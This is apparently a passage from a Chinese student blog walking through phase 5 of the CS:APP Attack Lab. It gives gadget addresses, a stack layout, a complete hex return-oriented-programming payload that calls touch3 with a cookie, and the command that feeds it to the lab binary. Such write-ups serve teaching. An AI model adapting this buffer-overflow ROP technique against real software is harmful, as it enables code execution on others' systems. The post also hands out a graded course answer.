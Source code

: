 接下来我们找到每个gadget的location,记得加上一点偏移量来定位到对应的Gadgets开头,然后我们就可以编写答案框架了

```
----栈顶----
buf缓冲区,要填0x28个字符
movq %rsp-->%rax            <----gadget1    0x401a06   <----%rsp
movq %rax--->%rdi           <----gadget2    0x4019a2
pop %rax		           <----gadget3     0x4019cc
相对偏移量  0x48
movl %eax--->%edx          <---gadget4      0x4019dd
movl %edx--->%ecx          <---gadget5      0x401a69
movl %ecx---->%esi	      <---gadget6	0x401a13
lea (%rdi,%rsi,1),%rax	     <---gadget7      0x4019d6
movl %rax--->%rdi            <----gadget8      0x4019a2
$touch3                                <---gadget9        0x004018fa
cookie 			             <---gadget10       35 39 62 39 39 37 66 61
---栈底---
```



编写sol5.txt文档

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40  00 00 00 00 00
35 39 62 39 39 37 66 61
```

输入命令

```
./hex2raw <sol5.txt >sol5r.txt && ./rtarget -q -i sol5r.txt
```



提交一手,完美通关!!!

![image-20240302010809099](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202403020220099.png)

至此,圆满完成通关!

# 小记

这篇详解是我在第一次做时边做边写的,做完phase_5后又兴致大发开始梳理编写,现在是3月2日的凌晨2:16分,大脑又困又转动.

实话实说,做这个真的很有意思,虽然我看了不少人的答案,毕竟一开始真的不能理解,不过现在大都理解了,这是一共的文件数量,做完整个lab.

![image-20240302021849311](https://cdn.jsdelivr.net/gh/zhzvite/picgoroom@img/img/202403020220164.png)

希望下一次能够独立做出lab!这才是更大的进步!

> Good Luck:生命不止,奋斗不息
